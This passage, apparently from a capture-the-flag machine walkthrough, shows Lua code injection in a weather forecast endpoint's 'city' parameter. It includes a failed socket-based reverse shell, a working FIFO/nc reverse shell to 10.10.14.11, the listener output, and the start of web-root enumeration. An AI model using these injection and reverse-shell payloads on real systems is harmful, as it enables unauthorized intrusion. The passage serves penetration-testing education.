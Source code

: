 I tried a Lua shell, but the modules needed weren’t there:

```

oxdf@parrot$ curl -G --data-urlencode "city=') require('socket');require('os');t=socket.tcp();t:connect('10.10.14.11','443');os.execute('/bin/sh -i <&3 >&3 2>&3') --" 'http://10.10.10.218/weather/forecast' -s
{"code": 500,"error": "unknown city: <br>Lua error: [string "                httpd.write('{"code": 500,')..."]:2: module 'socket' not found:
        no field package.preload['socket']
        no file '/usr/share/lua/5.3/socket.lua'
        no file '/usr/share/lua/5.3/socket/init.lua'
        no file '/usr/lib/lua/5.3/socket.lua'
        no file '/usr/lib/lua/5.3/socket/init.lua'
        no file '/usr/lib/lua/5.3/socket.so'
        no file '/usr/lib/lua/5.3/loadall.so'

```

The FIFO shell did work:

```

oxdf@parrot$ curl -G --data-urlencode "city=') os.execute('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.11 443 >/tmp/f') --" 'http://10.10.10.218/weather/forecast' -s

```

And it connects to a listening `nc`:

```

oxdf@parrot$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.10.218] 65453
sh: can't access tty; job control turned off
$ id
uid=24(_httpd) gid=24(_httpd) groups=24(_httpd)

```

## Shell as r.michaels

### Enumeration

#### Web

In the web root there are three files:

```

$ pwd  
/var/www
$ ls -la
total 20
drwxr-xr-x   2 root  wheel  512 Nov 25 11:27 .
drwxr-xr-x  24 root  wheel  512 Nov 24 09:55 ..
-rw-r--r--   1 root  wheel   47 Sep 16  2020 .htpasswd
-rw-r--r--   1 root  wheel  386 Sep 17  2020 index.html
-rw-r--r--   1 root  wheel   78 Nov 25 11:38 robots.txt

```
